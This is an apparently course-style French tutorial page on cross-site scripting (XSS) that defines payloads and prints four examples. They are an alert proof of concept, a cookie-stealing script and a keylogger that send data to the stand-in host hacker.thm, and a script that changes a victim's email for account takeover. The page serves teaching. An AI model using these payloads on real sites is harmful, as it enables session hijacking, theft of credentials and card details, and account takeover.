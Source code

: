 ![separe](https://github.com/studoo-app/.github/blob/main/profile/studoo-banner-logo.png)
# Failles XSS

[Retour](../../README.md)

## Définition

Le Cross-Site Scripting, mieux connu sous le nom de XSS dans la communauté de la cybersécurité,
est classé comme une attaque par injection où du JavaScript malveillant est injecté dans une application web
dans l'intention d'être exécuté par d'autres utilisateurs.

## La notion de charge utile ou Payload

En XSS , la payload est le code JavaScript que nous souhaitons exécuter sur l'ordinateur cible.
La charge utile comporte deux parties : l’intention et la modification.

L'intention est ce que vous souhaitez que JavaScript fasse réellement, et la modification concerne
les changements apportés au code dont nous avons besoin pour le faire exécuter car chaque scénario est différent.

Voici quelques exemples d’ intentions XSS .

### Proof of Concept :

Il s'agit de la payload la plus simple où tout ce que vous voulez faire est de démontrer que vous pouvez
réaliser XSS sur un site Web. Cela se fait souvent en faisant apparaître une boîte d'alerte sur la page
avec une chaîne de texte, par exemple :

```javascript
<script>alert('XSS');</script>
```

### Session Stealing :

Les détails de la session d'un utilisateur, tels que les jetons de connexion, sont souvent conservés dans
des cookies sur la machine cible. Le JavaScript ci-dessous prend le cookie de la cible, encode le cookie en base64
pour garantir une transmission réussie, puis le publie sur un site Web sous le contrôle du pirate informatique
pour y être enregistré. Une fois que le pirate informatique dispose de ces cookies, il peut reprendre la session
de la cible et être connecté en tant qu'utilisateur.

```javascript
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

### Keylogger :

Le code ci-dessous agit comme un enregistreur de frappe. Cela signifie que tout ce que vous tapez sur la page Web
sera transféré vers un site Web sous le contrôle du pirate informatique. Cela pourrait être très préjudiciable si
le site Web sur lequel la charge utile était installée sur les connexions utilisateur acceptées ou les détails de la carte de crédit.

```javascript
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) )}</script>
```

### Business Logic :

Cette charge utile est beaucoup plus spécifique que les exemples ci-dessus. Il s’agirait d’appeler une ressource
réseau particulière ou une fonction JavaScript.

Par exemple, imaginez une fonction JavaScript permettant de modifier l'adresse e-mail de l'utilisateur appelée user.changeEmail().
Votre charge utile pourrait ressembler à ceci :

```javascript
<script>user.changeEmail('attacker@hacker.thm');</script>
```
Maintenant que l'adresse e-mail du compte a changé, l'attaquant peut effectuer une attaque de réinitialisation du mot de passe.


## Les types de XSS

- [Reflected XSS](reflected-xss.md)
- [Stored XSS](stored-xss.md)
- [Dom based XSS](dom-xss.md)
- [Blind XSS](blind-xss.md)